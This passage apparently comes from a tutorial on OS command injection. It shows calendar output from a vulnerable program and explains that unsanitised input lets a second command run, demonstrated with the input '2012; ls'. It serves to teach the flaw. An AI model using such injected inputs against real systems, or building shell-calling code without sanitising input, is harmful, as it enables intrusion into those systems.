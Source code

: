 ```
       November 2012
Mon Tue Wed Thu Fri Sat Sun
              1   2   3   4
  5   6   7   8   9  10  11
 12  13  14  15  16  17  18
 19  20  21  22  23  24  25
 26  27  28  29  30



       December 2012
Mon Tue Wed Thu Fri Sat Sun
                      1   2
  3   4   5   6   7   8   9
 10  11  12  13  14  15  16
 17  18  19  20  21  22  23
 24  25  26  27  28  29  30
 31
```

The problem with this program is that if the inputs passed into the program are not properly sanitized/neutralized this will leave the target system open to [OS Injection attacks](https://portswigger.net/web-security/os-command-injection "PortSwigger Article On OS Command Injections"). We can verify the vulnerabilty by appending another command to the year we enter.

To do this we'll have to seperate the first command from our own by using the ```;``` symbol.

**Example** - command-1; command-2; command-3;

To list the contents of the current directory we'll use the following as input to the program.

```2012; ls```

This will list the calendar for 2012 followed by the contents of the current directory.

```

       January 2012
Mon Tue Wed Thu Fri Sat Sun
                          1
  2   3   4   5   6   7   8
  9  10  11  12  13  14  15
 16  17  18  19  20  21  22
 23  24  25  26  27  28  29
 30  31



       February 2012
Mon Tue Wed Thu Fri Sat Sun
          1   2   3   4   5
  6   7   8   9  10  11  12
 13  14  15  16  17  18  19
 20  21  22  23  24  25  26
 27  28  29
